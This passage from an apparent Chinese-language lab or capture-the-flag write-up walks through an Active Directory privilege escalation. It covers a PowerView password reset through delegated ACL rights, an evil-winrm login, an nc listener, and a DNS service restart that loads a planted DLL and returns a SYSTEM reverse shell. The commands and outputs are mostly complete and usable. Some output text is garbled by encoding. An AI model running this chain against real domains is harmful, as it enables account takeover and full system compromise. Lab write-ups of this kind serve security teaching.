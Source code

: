 ### 4.3. 精准利用 ACL 控制用户

要利用这一特定的委派权限，必须使用能够调用相应 ADSI 接口的工具。PowerView 的 `Set-DomainUserPassword` 函数正是为此设计的。

*   **处理 `SecureString`**
    **技术背景**：为安全起见，现代 PowerShell cmdlet 通常要求密码参数为 `SecureString` 类型，这是一种在内存中加密存储的字符串对象。我们需要先将明文密码进行转换。
    ```powershell
    *Evil-WinRM* PS C:\wirteTEMP> $SecurePassword = ConvertTo-SecureString 'P@ssword123!' -AsPlainText -Force
    ```
*   **重置密码**
    现在，我们可以调用函数，并传入转换后的 `SecureString` 对象。
    ```powershell
    *Evil-WinRM* PS C:\wirteTEMP> Set-DomainUserPassword -Identity jianyin -AccountPassword $SecurePassword -Verbose
    Verbose: [Set-DomainUserPassword] Attempting to set the password for user 'jianyin'
    Verbose: [Set-DomainUserPassword] Password for user 'jianyin' successfully reset
    ```
    命令成功执行，我们已完全控制 `jianyin` 账户。

### 4.4. 触发漏洞，获取 SYSTEM 权限

至此，所有拼图都已集齐：`tindalos` 放置了后门，`lihua` 帮助我们控制了 `jianyin`，而 `jianyin` 正是那个拥有“引爆”权限的人。

*   **使用新凭据登录**
    我们现在以 `jianyin` 的身份登录，他的密码已被我们重置为 `P@ssword123!`。
    ```bash
    ┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
    └─$ evil-winrm -i 192.168.205.149 -u 'jianyin' -p 'P@ssword123!'
    ...
    *Evil-WinRM* PS C:\Users\jianyin\Documents> whoami
    bicker\jianyin
    ```
*   **准备监听并重启服务**
    在 Kali 上开启 Netcat 监听，准备接收反弹 Shell。然后在 `jianyin` 的会话中，执行重启 DNS 服务的命令。
    ```bash
    # 在 Kali 终端
    ┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
    └─$ nc -lvnp 8888
    listening on [any] 8888 ...
    ```
    ```powershell
    # 在 jianyin 的 evil-winrm shell 中
    *Evil-WinRM* PS C:\Users\jianyin\Documents> Restart-Service DNS
    ```
*   **接收 Shell，提权成功**
    DNS 服务重启时，加载了我们预先设置的恶意 DLL。Kali 的监听窗口成功接收到连接，我们获得了一个 `NT AUTHORITY\SYSTEM` 权限的 shell。
    ```bash
    ┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
    └─$ nc -lvnp 8888
    listening on [any] 8888 ...
    connect to [192.168.205.128] from (UNKNOWN) [192.168.205.149] 58463
    Microsoft Windows [�汾 10.0.20348.169]
    (c) Microsoft Corporation����������Ȩ����
    